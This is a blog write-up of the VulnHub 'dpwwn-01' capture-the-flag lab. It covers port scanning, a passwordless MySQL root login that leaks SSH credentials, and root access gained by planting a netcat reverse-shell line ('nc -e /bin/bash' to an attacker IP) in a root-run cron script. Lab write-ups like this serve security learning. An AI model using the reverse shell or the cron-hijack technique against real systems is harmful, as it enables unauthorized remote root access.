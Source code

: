 ```yaml
---
layout:     post
title:      "Vulnhub - dpwnn1"
subtitle:   "Write-Up"
date:       2019-08-01 
img:  "/img/vulnhub.png"
author:     "D4mianwayne"
tags:    ["nmap, ctf, vulnhub"]
categories: ["Vulnhub"]
layout: "simple"

---
```


Writeup for VulnHub's Dpwwn machine.

<!-- more -->

# Nmap

Starting off with the nmap, using `nmap -sV -sC -A 192.168.43.59` shows us that 22, 80 and 3306 i.e. SSH, HTTP, MySQL are open respectively.

![](/img/dpwwn/nmap.png)

# HTTP and MySQL Enumeration 

I fired up the gobuster and while it was running I tried to check that HTTP server and the source in order to find something useful but somehow it's not relevant in any way and the gobuster has only given `/info.php` which as also not useful. So I tried MySQL service, using `mysql -h 192,168.43.59 -u root` which logged us into the mysql service of the machine. Using `SHOW DATABASES;` shows us that we have a database named `ssh`, selecting that database with `USE ssh` which has a table named `users` which can be seen by providing the command `SHOW TABLES;` and finally using `SELECT * FROM users` shows us that user and it's corresponding password which was `mistic:testP@$$swordmistic`.

![](/img/dpwwn/mysql.png)

# SSH Login and Root Flag

Using the credentials we found above, we logged into the ssh as user mistic. 

![](/img/dpwwn/ssh.png)

For the root, it was easy since the working directory of user mistic has a file `logrot.sh` which was a cronjob runs by the root and was collecting logs.
Checking the permission we can see that it can be edited by the user mistic so using `vi logrot.sh` and changing the mode to the input I entered the follwoing data whch will spawn the root shell as reverse callback due to that cronjob running.

```bash
[mistic@dpwwn-01 ~]$ cat logrot.sh
#!/bin/bash
nc -e /bin/bash 192.168.43.243 1234

```

Hence, spawning the root shell.

![](/img/dpwwn/root.png)

##### Root flag

Well, all the way down here for the flag:-

![](/img/dpwwn/rootflag.png)


